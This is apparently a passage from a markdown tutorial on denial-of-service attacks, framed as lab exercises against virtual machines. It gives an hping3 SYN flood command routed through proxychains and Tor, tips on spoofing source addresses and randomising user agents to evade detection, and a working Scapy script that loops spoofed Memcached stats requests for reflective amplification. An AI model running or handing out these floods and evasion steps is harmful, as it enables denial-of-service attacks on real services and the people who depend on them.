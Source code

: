   - Run all tools through `proxychains` with Tor:
    ```bash
    proxychains hping3 -S --flood -p 80 <target_IP>
    ```
  - Spoof source IP for DNS amplification.
  - Use random user agents in HTTP flood.
- **Lab Exercise**:
  1. Set up a target VM (e.g., Ubuntu with Apache and BIND9).
  2. Launch all three attacks simultaneously from Kali.
  3. Monitor target with `htop` and `tcpdump`:
     ```bash
     tcpdump -i eth0 host <target_IP>
     ```
- **Effectiveness**: High. Overwhelms multiple layers, making mitigation harder.
- **Weakness Exploited**: Lack of multi-layer defenses (e.g., no WAF or rate limiting).

### b. Reflective Amplification Attacks

- **Concept**: Use third-party servers (e.g., DNS, NTP, Memcached) to amplify traffic by sending small requests with a spoofed source IP (target’s IP), causing large responses to flood the target.
- **Real-World Use**: Common in large-scale attacks (e.g., 2018 Memcached attack reaching 1.7 Tbps).
- **Example: Memcached Amplification**:

  - Memcached servers (UDP port 11211) can amplify traffic up to 50,000x.
  - Requires open Memcached servers (simulate in lab).

- **Lab Setup**:

  1. Install Memcached on a second VM:

     ```bash
     sudo apt-get install memcached
     ```

     Enable UDP in `/etc/memcached.conf`:

     ```
     -u memcached
     -l 0.0.0.0
     -p 11211
     -U 11211
     ```

     Restart:

     ```bash
     sudo systemctl restart memcached
     ```

  2. Craft spoofed packets with Scapy:

     ```python
     from scapy.all import *
     target_ip = "<target_IP>"
     memcached_server = "<memcached_vm_IP>"
     packet = IP(src=target_ip, dst=memcached_server)/UDP(dport=11211)/Raw(load="\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
     send(packet, loop=1, verbose=0)
     ```
